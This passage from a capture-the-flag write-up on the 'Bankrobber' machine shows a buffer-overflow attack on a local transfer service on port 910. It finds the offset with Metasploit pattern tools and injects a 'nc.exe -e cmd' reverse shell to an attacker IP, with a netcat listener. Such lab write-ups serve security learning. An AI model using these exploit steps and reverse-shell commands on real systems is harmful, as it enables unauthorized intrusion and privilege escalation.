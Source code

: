 ```bash
./bin/python3 brute_force.py 2>/dev/null
# :)
nc localhost 910
```

<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bankrobber_writeup/Bankrobber_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

After some tests with the application, I can verify that it is vulnerable to a **BoF**, since I manage to crash it when I enter a long enough string in the field of the amount of **e-coins** to transfer (I must be careful with the attack because I had to **restart the machine** in my first attack). My goal is to inject a string specially designed to execute a command that will send me a **Reverse Shell**, so I have to make it so that instead of using the **transfer.exe** binary it executes my malicious command. To do this I will first use `pattern_create.rb` to generate a random string (not too long, **100 is enough**) to exploit the **BoF** again and then with `pattern_offset.rb` I can have the exact value of the number of characters before my malicious command. With `python` I do first a test and as everything seems correct, I can already perform the **BoF attack** and **Escalate privileges**. I access the content of the last flag, finished machine.

> **Attacker Machine**:

```bash
python3 -c 'print("A" * 300)'
nc localhost 910
  AAAA...AAA                        # :( I'm crash the service! 

# Reset the box :(

nc localhost 910
  AAAA....AA

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
nc localhost 910
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 100 -q 0Ab1
# [*] Exact match at offset 32

python3 -c 'print("A" * 32 + "B" * 8)'
nc localhost 910
  AAA...B     # :)

python3 -c 'print("A" * 32 + "C:\\Users\\Cortin\\AppData\\Local\\Temp\\nc.exe -e cmd 10.10.14.10 443")'
rlwrap -cAr nc -nlvp 443
nc localhost 910
  AAAA...443
```
